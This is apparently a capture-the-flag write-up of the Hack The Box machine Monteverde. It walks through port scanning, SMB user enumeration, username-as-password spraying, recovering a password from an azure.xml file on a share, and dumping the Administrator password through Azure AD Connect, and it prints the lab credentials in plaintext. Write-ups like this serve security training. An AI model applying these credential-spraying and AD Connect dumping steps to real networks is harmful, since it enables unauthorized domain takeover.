




## Rustscan
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-12-28 07:42:58Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49697/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2022-12-28T07:43:53
|_  start_date: N/A
|_clock-skew: 0s
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 16349/tcp): CLEAN (Timeout)
|   Check 2 (port 2859/tcp): CLEAN (Timeout)
|   Check 3 (port 47166/udp): CLEAN (Timeout)
|   Check 4 (port 62044/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   35.49 ms 10.10.14.1
2   35.52 ms monteverde (10.10.10.172)
* * *
## DNS
Checking Rustscan result we see from LDAP scan that the FQDN that AD responds to is megabank.local0 so we can assume is the FQDN. So we can procede to add it to our host file.
Edit: Checking after with result from SMB enumeration we got more info about our host files

* * *
## SMB
Let's fire up  Enum4linux and check if we can find some SMB shares and do some further enumeration.

[*] Enumerating users via 'querydispinfo'
[+] Found 10 user(s) via 'querydispinfo'
[*] Enumerating users via 'enumdomusers'
[+] Found 10 user(s) via 'enumdomusers'
[+] After merging user results we have 10 user(s) total:
  [+]  Getting domain group memberships:

Group: 'HelpDesk' (RID: 2611) has member: MEGABANK\roleary
Group: 'Domain Users' (RID: 513) has member: MEGABANK\Administrator
Group: 'Domain Users' (RID: 513) has member: MEGABANK\krbtgt
Group: 'Domain Users' (RID: 513) has member: MEGABANK\AAD_987d7f2f57d2
Group: 'Domain Users' (RID: 513) has member: MEGABANK\mhope
Group: 'Domain Users' (RID: 513) has member: MEGABANK\SABatchJobs
Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-ata
Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-bexec
Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-netapp
Group: 'Domain Users' (RID: 513) has member: MEGABANK\dgalanos
Group: 'Domain Users' (RID: 513) has member: MEGABANK\roleary
Group: 'Domain Users' (RID: 513) has member: MEGABANK\smorgan
Group: 'Operations' (RID: 2609) has member: MEGABANK\smorgan
Group: 'Trading' (RID: 2610) has member: MEGABANK\dgalanos
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\Administrator
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\AAD_987d7f2f57d2
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\mhope
Group: 'Domain Guests' (RID: 514) has member: MEGABANK\Guest
Group: 'Group Policy Creator Owners' (RID: 520) has member: MEGABANK\Administrator

Running crackmap on smb protocoll with the userfile we found previously we try a simply bruteforce:
1. Using blank password gives nothing
2. Using rockyou.txt takes foerever so we shoul skip it for now
3. Using username same as password gives us hope

Checking again enum4linux with a proper username:password we get juicier data

 ===========================( Share Enumeration on monteverde.megabank.local )===========================

do_connect: Connection to monteverde.megabank.local failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        azure_uploads   Disk
        C$              Disk      Default share
        E$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        SYSVOL          Disk      Logon server share
        users$          Disk
Reconnecting with SMB1 for workgroup listing.
Unable to connect with SMB1 -- no workgroup available

[+] Attempting to map shares on monteverde.megabank.local

//monteverde.megabank.local/ADMIN$      Mapping: DENIED Listing: N/A Writing: N/A
//monteverde.megabank.local/azure_uploads       Mapping: OK Listing: OK Writing: N/A
//monteverde.megabank.local/C$  Mapping: DENIED Listing: N/A Writing: N/A
//monteverde.megabank.local/E$  Mapping: DENIED Listing: N/A Writing: N/A

[E] Can't understand response:

NT_STATUS_NO_SUCH_FILE listing \*
//monteverde.megabank.local/IPC$        Mapping: N/A Listing: N/A Writing: N/A
//monteverde.megabank.local/NETLOGON    Mapping: OK Listing: OK Writing: N/A
//monteverde.megabank.local/SYSVOL      Mapping: OK Listing: OK Writing: N/A
//monteverde.megabank.local/users$      Mapping: OK Listing: OK Writing: N/A
[+]  Getting domain group memberships:

Group: 'Domain Guests' (RID: 514) has member: MEGABANK\Guest
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\Administrator
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\AAD_987d7f2f57d2
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\mhope
Group: 'HelpDesk' (RID: 2611) has member: MEGABANK\roleary
Group: 'Trading' (RID: 2610) has member: MEGABANK\dgalanos
Group: 'Group Policy Creator Owners' (RID: 520) has member: MEGABANK\Administrator
Group: 'Operations' (RID: 2609) has member: MEGABANK\smorgan
Group: 'Domain Users' (RID: 513) has member: MEGABANK\Administrator
Group: 'Domain Users' (RID: 513) has member: MEGABANK\krbtgt
Group: 'Domain Users' (RID: 513) has member: MEGABANK\AAD_987d7f2f57d2
Group: 'Domain Users' (RID: 513) has member: MEGABANK\mhope
Group: 'Domain Users' (RID: 513) has member: MEGABANK\SABatchJobs
Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-ata
Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-bexec
Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-netapp
Group: 'Domain Users' (RID: 513) has member: MEGABANK\dgalanos
Group: 'Domain Users' (RID: 513) has member: MEGABANK\roleary
Group: 'Domain Users' (RID: 513) has member: MEGABANK\smorgan
Group: 'Domain Admins' (RID: 512) has member: MEGABANK\Administrator
Group: 'Schema Admins' (RID: 518) has member: MEGABANK\Administrator
Group: 'Enterprise Admins' (RID: 519) has member: MEGABANK\Administrator
Group: 'Domain Controllers' (RID: 516) has member: MEGABANK\MONTEVERDE$

Surfing SMB user$ shares we found 

So far nothing hosted on azure_uploads share and no write access, seems like we will have to user that Azure.xml file to get some kind of priv esc.
Cheking azure.xml seems like we got out first users credentials, 
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# cat azure.xml
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>

* * *
## Privesc
So let's try to get a Evilwin-rm connection
mhope: 4n0therD4y@n0th3r$
And boom we have our first flag

Now let's see how can we privesc to Administrator... Checking Priviledges seems like we don't have that much for now.
*Evil-WinRM* PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

But checking group membership shows that we are Azure administrators
GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
MEGABANK\Azure Admins                       Group            S-1-5-21-391775091-850290835-3566037492-2601 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448

Most probably our attack vector is in that group. We could run Winpeas and Sharphound but don't know how much would find.

Here i went in a bad loop, could't find anything via Bloodhound nor Winpeas helped me since it was crashing so I had to check for tips, and apparently we could dump the user:password used during Azure AdConnect configuration since we are Azure Admins.
Checking we find this nice repository...
https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1

Importing this poweshell module and running it against it's own DB we get the password of the Administrator
*Evil-WinRM* PS C:\temp>
*Evil-WinRM* PS C:\temp> import-module ./AzureAD-Connect-Dump.ps1
*Evil-WinRM* PS C:\temp>  Azure-ADConnect -server localhost -db AdSync
[+] Domain:  MEGABANK.LOCAL
[+] Username: administrator
[+]Password: d0m@in4dminyeah!
*Evil-WinRM* PS C:\temp>

And we can login back with Administrator on Win-rm and grab the last flag.

